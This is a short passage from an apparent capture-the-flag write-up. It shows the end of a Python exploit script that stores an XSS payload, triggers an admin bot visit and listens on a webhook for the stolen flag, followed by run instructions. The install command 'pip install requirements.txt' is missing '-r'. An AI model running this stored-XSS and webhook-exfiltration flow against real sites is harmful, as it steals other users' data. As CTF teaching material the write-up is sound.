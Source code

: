 ```py
    register(username, password)
    login(username, password)
    store_xss_payload()
    bot_visit(f"{webhook_url}/x")


if __name__ == "__main__":
    print("Starting exploit...")
    Thread(target=app.run, kwargs={'host': '0.0.0.0', 'port': 5050}, daemon=True).start()
    exploit()
    print('Listening for flag in webhook...')
    # sleep until the flag is received
    import time
    time.sleep(100)  # wait for 100 seconds
    print('Exiting...')
```

In order to run the exploit, you need to have installed the required packages:
```bash
pip install requirements.txt
```

Then you can run the exploit with:
```bash
python exploit.py [local|remote]
```